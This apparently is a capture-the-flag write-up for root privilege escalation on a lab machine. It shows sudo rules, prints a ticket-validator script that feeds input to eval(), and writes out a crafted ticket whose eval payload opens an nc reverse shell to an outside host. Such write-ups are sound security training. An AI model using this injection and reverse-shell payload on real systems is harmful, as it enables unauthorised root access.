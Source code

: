 # Privilege escalation to root
## development user can run following command as sudo
```bash
development@bountyhunter:~$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```
Running command `sudo -l` tells tghat development user can run `/usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py` command as sudo.
![[Pasted image 20210916163151.png]]
## Analyzing contents of `/opt/skytrain_inc/ticketValidator.py`
```python
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```
* This python script checks if ticket contained in file is valid or not.
* This script takes ticket file path as input.
* This script checks if file ends with `md` extention.
* Then scripts checks if lines of ticket file contains
	*  `# Skytrain Inc` on first line.
	* `## Ticket to` on second line.
	*  `__Ticket Code:__` on third line.
	*  Fourth line starts with `**`.
*  Then it strips of all `**` on fourth line and checks if first digit before `+`
sign gives remainder of `4` when divided by `7` to check if ticket code is valid.
* Then it evaluates the expression after stripping of all `**` and see if its total is greater than 100 to check if ticket is valid using `eval()` function.
## Exploiting `eval()` function to get reverse shell as root
First of all a file with `.md` extention was made satisfying all conditions of valid ticket in `/tmp/clarkey` directory named `a.md` which contained reverse shell code `__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.98 1234 >/tmp/f')` in statement that will evaluate using evail()
```bash
development@bountyhunter:/opt/skytrain_inc$ cat /tmp/clarkey/a.md
# Skytrain Inc# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**4 + __import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.98 1234 >/tmp/f')**
##Issued: 2021/04/06
#End Ticket
```
Now running command `/usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py` as sudo to get reverse shell 




